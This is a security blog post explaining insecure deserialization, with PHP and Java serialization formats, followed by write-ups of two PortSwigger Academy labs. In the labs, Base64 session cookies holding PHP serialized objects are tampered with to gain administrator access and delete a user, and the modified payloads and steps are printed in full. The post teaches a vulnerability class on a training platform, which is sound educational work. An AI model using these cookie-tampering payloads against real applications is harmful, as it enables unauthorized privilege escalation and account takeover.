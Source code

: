 ```yaml
---
layout: post
title: Insecure deserialization
subtitle: Insert serialized malicious command, and it triggers when the application deserialization.
date: 2025-07-30 09:59
author: Ren Sie
comments: true
category: injection
cover-img: /assets/img/Post_Cover.png
thumbnail-img: /assets/img/githubpost/Insecure_deserialization._thumb.png
share-img: /assets/img/Post_Cover.png
---
```


The attack can lead to RCE, privilege escalation, arbitrary file access, and denial-of-service attacks.

### Serialization
Turns the complex data objects into a stream of data. Which make it easier to store or transfer.

#### PHP
- Letters = data type.
- Numbers = length of each entry.
- Serialize method: serialize() and unserialize()
If you have source code access, start by looking for unserialize() and investigating further. 
~~~
O:4:"User":2:{s:4:"name":s:6:"carlos";s:10:"isLoggedIn":b:1;} 
~~~
This can be interpreted as follows:
> O:4:"User" - Object w/ 4-character class name "User"  
> 2 - Object has 2 attributes  
> s:4:"name" - The key of the first attribute is the 4-character string "name"  
> s:6:"carlos" - The value of the first attribute is the 6-character string "carlos"  
> s:10:"isLoggedIn" - The key of the second attribute is the 10-character string "isLoggedIn"  
> b:1 - The value of the second attribute is the boolean value true

#### Java
Serialized Java objects always begin with the same bytes which are encoded:
- Hexadecimal: ac ed
- Base64: rO0
- Method: java.io.Serializable
If you have source code access, take note of any code that uses the readObject() method, which is used to read and deserialize data from an InputStream.  

### Deserialization
Reverse the process of Serialization, turn data stream back to data objects.  
If a website deserializes data that comes from the user, it can be dangerous. because the attacker can change the serialized data.

#### Manipulating serialized objects
1. Look at the serialized data.
2. Find important values (e.g., user roles or permissions).
3. Edit those values.
4. Send the modified object back to the website.
5. The website deserializes the object.
6. The website uses your edited values.

### Labs
Just for demostration, I completed a couple of labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#insecure-deserialization) to show what this vulnerability can lead to:

#### 1. Modifying serialized objects 
In this instance, I will try editing the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges.  
<details markdown="1">
  <summary>Click me to expand the process</summary>  
1. Firstly, I capture and analyze the session cookie from the response of the `GET /my-account request` using Burp Proxy. Then decode the session cookie from Base64 to reveal the serialized data: 
~~~
Session Cookie: Tzo0OiJVc2VyljoyOntzOjg6lnVzZXJuYW1lljtzOjY6lndpZW5lcil7czo1OiJhZG1pbil7YjowO30
Decoding Result: O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
~~~

2. I notice there's admin parameter, I modify the serialized object by changing `'admin;b:0'` to `'admin;b:1'`, granting admin privileges.  
After that, re-encode the modified serialized data back into Base64 and use it as the new session cookie. 
~~~
Serialized Object: O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;} 
Encoding Result: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30g
~~~

3. Send another `GET /my-account request` to the web application using Burp Repeater with the modified session cookie.  
Once that's done I see a `GET /admin request` is captured in Burp Proxy, but initially returns 401 Unauthorized.  

4. I resend the `GET /admin request` with the modified session cookie by Burp Repeater. This time, it returns 200 OK, confirming admin access.
</details>

#### 2. Modifying serialized data types
In this instance, I edit the serialized object in the session cookie to access the administrator account. Then, delete the user carlos.  
<details markdown="1">
  <summary>Click me to expand the process</summary>  
1. Firstly, I capture and analyze the session cookie from the response of the `GET /my-account request` using Burp Proxy. Then decode the session cookie from Base64 to reveal the serialized data: 
~~~
Session Cookie: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJqeGoxb2NpcHZreTFpZzE0bzF1ajV0Nmt5bHlpYnoweiI7
Decoding Result: O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"jxj1ocipvky1ig14o1uj5t6kylyibz0z";
~~~

2. Then I modify the serialized data type by changing:  
   - "username";s:6:"wiener" > "username";s:13:"administrator"
   - "access_token";s:32:"jxj1oc..." > "access_token";i:0;

3. Re-encode the modified serialized data back into Base64 and use it as the new session cookie.
~~~
Serialized Object: O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
Encoding Result: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
~~~

4. I decide to use different approach from the previous instance. Instead of using Burp Repeater, I insert the encoded modified cookie session from the developer tool. 
   - Right click on the page > Inspect > Application > Cookies > Paste the cookie into "Value"
   - Value: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
 
5. Once that's done, refresh the page, and we will access the admin account. I then navigate to admin panel and delete user "carlos" account.
</details>
